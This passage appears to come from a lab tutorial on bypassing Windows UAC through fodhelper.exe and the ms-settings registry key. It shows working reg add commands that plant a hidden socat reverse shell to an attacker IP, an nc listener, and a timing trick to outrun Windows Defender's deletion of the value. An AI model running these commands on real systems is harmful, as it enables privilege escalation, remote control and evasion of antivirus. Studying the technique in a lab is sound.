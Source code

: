 If you query the corresponding value on the registry, you will notice it has been erased:

- **Command Prompt**        

```shell-session
C:\Windows\system32>reg query %REG_KEY% /v ""

HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    (Default)    REG_SZ    (value not set)
        
```

Although by now it would seem our  exploit wouldn't work with Windows Defender enabled, check what happens  if you run the same commands but with a slight modification (be sure to  replace your IP address where needed):

- **Command Prompt**        

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY%
HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    DelegateExecute    REG_SZ    
    (Default)    REG_SZ    powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes
        
```

We have added a quick query to the offending registry value right  after setting it to the command required for our reverse shell.  Surprisingly, the query outputs our command intact. We still get alerted by Windows Defender, and a second later, the  offending registry value gets deleted as expected. It appears it takes a moment for Windows Defender to take action on our exploit, so let's set a reverse listener on our attacker's machine:

```
nc -lvp 4444
```

And modify the exploit to run fodhelper.exe immediately after setting the registry value. If the command runs quick enough, it will just  work (be sure to replace your IP address where needed):

- **Command Prompt**        

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
        
```
